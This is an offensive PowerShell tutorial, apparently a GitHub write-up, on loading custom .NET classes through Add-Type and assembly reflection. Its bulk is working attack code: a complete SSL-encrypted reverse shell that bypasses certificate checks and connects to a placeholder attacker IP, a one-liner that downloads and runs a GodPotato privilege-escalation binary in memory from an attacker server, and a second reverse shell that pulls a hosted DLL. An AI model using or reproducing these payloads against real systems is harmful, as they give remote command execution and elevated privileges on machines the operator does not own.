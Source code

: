 
(a) Loading Custom .NET Classes into a PowerShell session via Add-Type PowerShell is neat because it allows us to write native C# code and load them into the current session with different types of tools, most common being `Add-Type`. My personal most common use for it is using custom code to effectively disable the server certificate check that `[System.Net.WebClient]` uses -- allowing for communication with a simple web server over HTTPS using self signed certificates instead of HTTP.  
For another example, below is an SSL encrypted PowerShell reverse shell payload using a custom .NET Class:

```powershell
### PowerShell 5.0+ ###
# $IPAddress = "<attacker_ip>"
# $Port = <listening_port>
$SSC = @'
using System;
using System.Net;
using System.Net.Sockets;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static bool Bypass
    (
        Object obj,
        X509Certificate cert,
        X509Chain chain,
        SslPolicyErrors errors
    )
    {
        return true;
    }
    public static SslStream Stream(TcpClient c)
    {
        return new SslStream(c.GetStream(), false, new RemoteCertificateValidationCallback(Bypass), null);
    }
}
'@
Add-Type $SSC
$Client = [System.Net.Sockets.TcpClient]::new("$IPAddress",$Port)
$Stream = [SelfSignedCerts]::Stream($Client)
$Stream.AuthenticateAsClient("")
[byte[]]$Buffer = 0..65535 | % {0}
$LastError = $Error[0]
while (($Data = $Stream.Read($Buffer,0,$Buffer.Length)) -ne 0) {
    $Command   = [System.Text.ASCIIEncoding]::new().GetString($Buffer,0,$Data)
    $Execution = (iex $Command *>&1 | Out-String)
    if ($Error[0] -ne $LastError) { $LastError = $Error[0]; $Execution += "$LastError`n" }
    $OutString = $Execution + "PS " + (PWD).Path + "> "
    $OutBytes  = ([Text.Encoding]::ASCII).GetBytes($OutString)
    $Stream.Write($OutBytes,0,$OutBytes.Length)
    $Stream.Flush()
}
$Client.Close()
```

(b) Loading Custom .NET Classes into a PowerShell session via Assembly Reflection Another really neat method of loading powerful C# tomfoolery into session is via reflection -- specifically using `[System.Reflection.Assembly]::Load(<intended_assembly_here>)`. This method is especially powerful because you can load complete C# binaries into session. When combining this with `[System.Net.WebClient]`, you can host malicious C# binaries on your attacker and load them into session on a compromised host. Prime example of this is exploiting `SeImpersonatePrivilege` for privilege escalation all from memory.  
Below is an example of this using my GodPotato fork: [https://github.com/tylerdotrar/GodPotatoNet](https://github.com/tylerdotrar/GodPotatoNet "https://github.com/tylerdotrar/GodPotatoNet")

```
# C# Reflection in PowerShell
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```

(c) Tying it all Together Turns out `Add-Type` has the ability to compile really simple assemblies (`.dll`) instead of just loading them into session. Meaning instead of needing Visual Studio to compile a binary for something simple like a self-signed certificate bypass, we can just create a small `.dll` using `Add-Type`, host it on our attacker, and load it via `[System.Reflection.Assembly]` to achieve the same end goal.

For this final example, I'll recreate the Reverse Shell payload from section (a), however instead of loading the `[SelfSignedCerts]` class into session via `Add-Type`, I've instead used `Add-Type $SSC -OutputAssembly SSC.dll` to create an `SSC.dll` assembly from the original section (a) code, and began hosting it on a simple web server on my attacker. Now for the payload, instead of including the entire C# source code, we can replace that code snippet in our payload with an assembly reflection pointing to the hosted `SSC.dll`.

```powershell
### PowerShell 5.0+ ###
# $IPAddress = "<attacker_ip>"
# $Port = <listening_port>
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/SSC.dll"))
$Client = [System.Net.Sockets.TcpClient]::new("$IPAddress",$Port)
$Stream = [SelfSignedCerts]::Stream($Client)
$Stream.AuthenticateAsClient("")
[byte[]]$Buffer = 0..65535 | % {0}
$LastError = $Error[0]
while (($Data = $Stream.Read($Buffer,0,$Buffer.Length)) -ne 0) {
    $Command   = [System.Text.ASCIIEncoding]::new().GetString($Buffer,0,$Data)
    $Execution = (iex $Command *>&1 | Out-String)
    if ($Error[0] -ne $LastError) { $LastError = $Error[0]; $Execution += "$LastError`n" }
    $OutString = $Execution + "PS " + (PWD).Path + "> "
    $OutBytes  = ([Text.Encoding]::ASCII).GetBytes($OutString)
    $Stream.Write($OutBytes,0,$OutBytes.Length)
    $Stream.Flush()
}
$Client.Close()
```

(d) Conclusion All methods have pros and cons -- sometimes it's easier to just leave the code snippet in the payload and add it to session via `Add-Type` -- sometimes size is a concern, so we just want to point to it via reflection, etc etc etc.